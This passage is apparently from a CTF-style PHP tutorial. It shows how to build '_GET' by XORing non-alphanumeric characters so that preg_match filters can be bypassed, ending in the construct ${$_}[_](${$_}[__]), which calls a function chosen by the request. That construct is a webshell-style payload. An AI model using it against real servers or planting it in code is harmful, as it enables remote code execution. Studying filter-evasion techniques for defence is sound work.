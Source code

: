 

The output is:


![](./figure/preg_match/answer3.png)



```

<?php

    echo "{"^">";

?>

```



The output is:


![](./figure/preg_match/answer4.png)



```

<?php

    echo "{"^"/";

?>

```



The output is:


![](./figure/preg_match/answer5.png)



So we can know that `_GET` is constructed like this!


#### Get the `_GET` parameter


How do we get the `_GET` parameter? We can construct the following string:


```

<?php

    echo ${$_}[_](${$_}[__]);//$_GET[_]($_GET[__])

?>

```
